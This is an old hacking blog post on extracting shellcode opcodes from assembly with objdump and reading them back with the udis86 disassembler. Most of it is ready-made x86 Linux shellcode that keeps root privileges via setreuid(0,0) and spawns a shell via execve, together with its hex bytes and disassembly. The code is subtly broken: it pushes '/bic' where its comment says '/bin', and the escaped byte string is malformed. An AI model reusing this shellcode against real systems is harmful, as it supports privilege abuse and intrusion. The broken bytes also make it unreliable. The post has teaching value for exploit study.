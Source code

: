 Title: Disassembly
Date: 2011-12-20 17:58
Author: isis agora lovecruft
Category: hacking
Tags: assembly languages, exploit development, fancy punks, hex, linux, shellcode

Often when doing exploit development, it's [necessary to extract hex
opcodes][] from an assembly or C program to generate shellcode.
Normally, to do this, one uses **objdump** as in the following example:

`isis agora lovecruft@wintermute:~$ cat shellcode.asm`

section .text

global \_start

\_start:

;; setreuid (0,0)

xor eax, eax ;clear the eax registry

mov al, 0x46 ;set the syscall \# to decimal 70 or hex 46, one byte

xor ebx, ebx

xor ecx, ecx

int 0x80 ;system interrupt to call kernel to execute syscall

;; spawn shellcode with execve

xor eax, eax

push eax ;push a NULL value on the stack

push 0x68732f2f ;push '//sh' onto the stack

push 0x6369622f ;push '/bin' onto the stack

mov ebx, esp ;esp now points to '/bin/sh', so write to ebx

push eax ;push another NULL to terminate char \*\* argv on stack

push ebx ;push pointer to '/bin/sh' onto stack

mov ecx, esp ;esp now holds the address of argv, so write to ecx

xor edx, edx

mov al, 0xb ;set the syscall \# to decimal 11 or hex b, one byte

int 0x80 ;sytem interrupt to call kernel to execute syscall

isis agora lovecruft@wintermute:\~\$ nasm -f elf shellcode.asm

isis agora lovecruft@wintermute:\~\$ ld -melf\_i386 -o shellcode shellcode.o

isis agora lovecruft@wintermute:\~\$ objdump -d ./shellcode

./shellcode: file format elf32-i386

Disassembly of section .text:

08048060 \<\_start\>:

8048060: 31 c0 xor %eax,%eax

8048062: b0 46 mov \$0x46,%al

8048064: 31 db xor %ebx,%ebx

8048066: 31 c9 xor %ecx,%ecx

8048068: cd 80 int \$0x80

804806a: 31 c0 xor %eax,%eax

804806c: 50 push %eax

804806d: 68 2f 2f 73 68 push \$0x68732f2f

8048072: 68 2f 62 69 63 push \$0x6369622f

8048077: 89 e3 mov %esp,%ebx

8048079: 50 push %eax

804807a: 53 push %ebx

804807b: 89 e1 mov %esp,%ecx

804807d: 31 d2 xor %edx,%edx

804807f: b0 0b mov \$0xb,%al

8048081: cd 80 int \$0x80

So, from this example, the shellcode would be:

`\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\x31\xc0\x50\x68\x2f\2f\x73\`

x68\\x68\\x2f\\x62\\x69\\x63\\x89\\xe3\\x50\\x53\\x89\\xe1\\x31\\xd2\\xb0\\x0b\\xcd\\x80

But! What if you have some shellcode, say from a nasty PDF that someone
sent you (though a malPDF's shellcode would be in JavaScript, and so it
would look like "%u68%u73%u2f%u2f"), and you don't want to have to sit
there with a hex-to-ascii chart looking everything up by hand just to
find out what this shellcode is doing? As it turns out, there's a handy
little thing called [udis86][] to do all that boring work for you. You
have to download their tarball, then do:

`$ ./configure && make && make install`

To run udis86 at the commandline, do:

`$ udcli`

Words can't describe how much I'm crushing on this program. Check this
out:

`isis agora lovecruft@wintermute:~/$ udcli -x`

31 c0 b0 46 31 db 31 c9 cd 80 31 c0 50 68 2f 2f 73 68 68 2f 62 69 63 89
e3 50 53 89 e1 31 d2 b0 0b cd 80

0000000000000000 31c0 xor eax, eax

0000000000000002 b046 mov al, 0x46

0000000000000004 31db xor ebx, ebx

0000000000000006 31c9 xor ecx, ecx

0000000000000008 cd80 int 0x80

000000000000000a 31c0 xor eax, eax

000000000000000c 50 push eax

000000000000000d 682f2f7368 push dword 0x68732f2f

0000000000000012 682f626963 push dword 0x6369622f

0000000000000017 89e3 mov ebx, esp

0000000000000019 50 push eax

000000000000001a 53 push ebx

000000000000001b 89e1 mov ecx, esp

000000000000001d 31d2 xor edx, edx

000000000000001f b00b mov al, 0xb

0000000000000021 cd80 int 0x80

  [necessary to extract hex opcodes]: http://www.patternsinthevoid.net/blog/2011/09/learning-assembly-through-writing-shellcode/
    "Learning Assembly Through Writing Shellcode"
  [udis86]: http://udis86.sourceforge.net/
